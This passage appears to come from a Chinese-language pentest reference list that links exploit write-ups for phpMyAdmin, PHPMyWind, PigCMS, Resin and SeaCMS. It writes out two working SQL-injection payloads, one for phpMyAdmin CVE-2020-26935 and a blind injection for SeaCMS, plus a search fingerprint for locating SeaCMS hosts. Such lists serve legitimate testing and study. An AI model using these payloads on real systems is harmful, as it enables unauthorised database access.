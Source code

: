 [phpMyAdmin 4.6.2 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/40185)

[phpMyAdmin 4.7.x CSRF 漏洞利用](https://blog.vulnspy.com/2018/06/10/phpMyAdmin-4-7-x-XSRF-CSRF-vulnerability-exploit/)

[phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog)

[CVE-2018-12613漏洞学习总结](https://mp.weixin.qq.com/s/zGJxjtDLkw9CMHGfNRu1nw)

[phpMyAdmin任意文件读取漏洞复现（CVE-2019-6799）以及检测POC编写](https://bbs.zkaq.cn/t/4570.html)

[CVE-2019-12922 4.9.0.1 CSRF](https://www.hedysx.com/bug/2398.html)

CVE-2020-26935 phpmyadmin后台SQL注入

```mysql
/tbl_zoom_select.php?db=pentest&table=a&get_data_row=1&where_clause=updatexml(1,concat(0x7e,user()),1)
```

[phpMyAdmin 5.1.1 - XSS](https://mp.weixin.qq.com/s/c2kwxwVUn1ym7oqv9Uio_A)

## PHPMyWind

[记一次渗透测试历程](https://xz.aliyun.com/t/6018)

[phpmywind最新版sql注入以及后台目录遍历和文件读取](https://blog.csdn.net/dengzhasong7076/article/details/102139691)

[PHPMyWind v5.5 审计记录](https://bbs.ichunqiu.com/thread-46703-1-1.html)

https://www.exploit-db.com/exploits/42535

## PigCMS

[PigCMS action_flashUpload 任意文件上传漏洞](https://peiqi.wgpsec.org/wiki/cms/PigCMS/PigCMS%20action_flashUpload%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.html)

## Resin

[针对Resin服务的攻击向量整理](https://blkstone.github.io/2017/10/30/resin-attack-vectors/)

[Resin任意文件读取漏洞](https://www.cnblogs.com/KevinGeorge/p/8953731.html)

[Resin容器文件解析漏洞深入分析](https://mp.weixin.qq.com/s/eZAG3Ze0ytd5l7ci1nb-qg)

## SeaCMS

app="海洋CMS"

攻击者可通过对admin_members_group.php的编辑操作中的id参数利用该漏洞进行SQL注入攻击。

```
/admin_members_group.php?action=edit&id=2%20and%20if(mid(user(),1,1)=%27r%27,concat(rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27),rpad(1,999999,%27a%27))%20RLIKE%20%27(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2b(a.*)%2bcd%27,1)
```
